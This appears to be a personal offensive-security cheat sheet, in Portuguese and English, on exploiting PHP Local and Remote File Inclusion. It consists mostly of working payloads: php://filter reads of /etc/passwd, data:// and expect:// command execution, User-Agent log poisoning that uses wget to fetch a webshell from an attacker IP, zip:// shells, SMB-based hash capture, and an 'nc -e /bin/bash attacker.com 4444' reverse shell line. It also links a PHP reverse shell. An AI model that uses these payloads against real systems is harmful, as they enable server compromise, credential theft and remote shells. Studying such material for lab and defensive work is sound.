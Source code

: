 LFI-RFI
========================

Shell reversa para windows ou linux

https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php

Para trigar a vulnerabilidade do LFI/RFI, vale apena considerarmos ou imaginarmos como está o código da aplicação. Os cenários possíveis são:


## Concepts

### LFI
Neste cenário a aplicação executa o código em php que for fornecido no parâmetro 'page'.

    <?php
    $file = $_GET['page'];
    include($file);
    ?>

Outro cenário plausível seria o somente leitura com o seguinte código:

    get_file_contents($_GET['page'])

https://www.php.net/manual/en/function.file-get-contents.php

### RFI

(primeiro a ser testado, porque é mas fácil de explorar)
Remote File Inclusion doesn't work anymore on a default configuration since allow_url_include is now disabled since PHP5.
        
    allow_url_include = On

**Bypass allow_url_include**

When allow_url_include and allow_url_fopen are set to Off. It is still possible to include a remote file on Windows box using the smb protocol.

1) Create a share open to everyone
2) Write a PHP code inside a file : shell.php
3) Include it http://example.com/index.php?page=\\10.0.0.1\share\shell.php
          3.1) http://example.htb/index.php?view=//10.10.14.13/smb/sb.php

Vale considerar que, caso não seja possível a execução nesse cenário, ainda é possível a extração do hash de senha.

![qownnotes-media-srjMyL](../../../media/qownnotes-media-srjMyL.png)

![qownnotes-media-PjvkTT](../../../media/qownnotes-media-PjvkTT.png)

Copy the content from "svc_apache" to the final string and past into a file called hash.txt, for example:

![qownnotes-media-ErWStG](../../../media/qownnotes-media-ErWStG.png)

![qownnotes-media-FnhrWB](../../../media/qownnotes-media-FnhrWB.png)

 Aqui temos um detalhe que é quando, no PHP em particular os arquivos são incluidos, por meio de chamadas como
 include, por exemplo.
 
 <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion>
 
 <https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/>
 
 Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.
 
     <?php include($_GET['file'].".php"); ?>

## Exploiting

Um dos caminhos para  poder realizar alguns testes seriam com wfuzz ou ffuf, por exemplo:

### wfuzz

    wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 1678 -H "Cookie: PHPSESSID=iijak2sj64mghckom5220vo5vo" https://streamio.htb/admin/?debug=FUZZ

### ffuf

    ffuf -c -ic -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -u http://school.flight.htb?view=FUZZ -fs 7069,1170,1102

### wordlists

    sudo apt update
    sudo apt install seclists
    /usr/share/seclists/Fuzzing/LFI/*

**Algumas considerações:**

Considere que essas duas wordlists possuem cominhos completos...

Para testes mais básicos em windows, podemos sugerir esta wordlist:
    
    /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
    
Para testes mais básicos em Linux:

    /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

Para testes mais complexos, envolvendo directory traversal, considere usar as wordlists:

Para windows

    /usr/share/seclists/Fuzzing/LFI/file_inclusion_windows.txt

Para linux

    /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt

Outras wordlists:

    $OWNCLOUD\owncloud\Area_de_trabalho\tools\wordlists_payloads\attack\lfi\*
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/LFI-WindowsFileCheck.txt
    https://raw.githubusercontent.com/tennc/fuzzdb/master/dict/BURP-PayLoad/LFI/LFI-WinblowsFileCheck.txt


### LFI to RCE

    php://input&cmd=cat%20/etc/passwd
    
    /var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444
    


<https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/>


### Using file upload forms/functions
upload a shell, then

    http://example.com/index.php?page=path/to/uploaded/file.php

### Using the PHP wrapper expect://command

if the app use an include:

    <?php  
    include $_GET['page'];  
    ?>  
http://target.com/index.php?page=expect://whoami  

###  Using php wrapper file://
http://localhost/include.php?page=file:///path/to/file.ext

### Using the PHP wrapper php://filter

Com isso eu consigo obter alguns arquivos do servidor
http://localhost/include.php?page=php://filter/convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/read=convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/resource=/etc/passwd

### Using PHP input:// stream

POST

/fi/?page=php://input&cmd=dir

### Using data://text/plain;base64,command

    data://text/plain;base64,[command encoded in base64]

or
    
    data://text/plain,<?php shell_exec($_GET['cmd']);?>  

ex:

http://example.com/Keeper.php?page=data://text/plain;base64,JTNDJTNGc3lzdGVtJTI4JTI3aWQlMjclMjklM0IlM0YlM0U=  
http://example.com/Keeper.php?page=data://text/plain,<?system('whoami');?>  

### Using /proc/self/environ

Another popular technique is to manipulate the Process Environ file. In a nutshell, when a process is created and has an open file handler then a file descriptor will point to that requested file.

Our main target is to inject the /proc/self/environ file from the HTTP Header: User-Agent. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there.

    curl http://secureapplication.example/index.php?view=../../../proc/self/environ

response:

HTTP_USER_AGENT="curl/" </body>
so we can inject shit like a webshell

    curl -H "User-Agent: <?php system('wget http://10.10.14.6/webshell.php -O webshell.php')" http://target.com

    curl http://target.com/webshell.php&cmd=ls

### Using /proc/self/fd
brute force the fd until you see “referer” /proc/self/fd/{number} then

    curl -H "Referer: <?php phpinfo(); ?>" http://target.com

###  Using zip
Upload a ZIP file containing a PHP shell compressed and access:

example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php

### Using log files with controllable input like:
  . /var/log/apache/access.log
  . /var/log/apache/error.log
  . /var/log/vsftpd.log
  . /var/log/sshd.log
  . /var/log/mail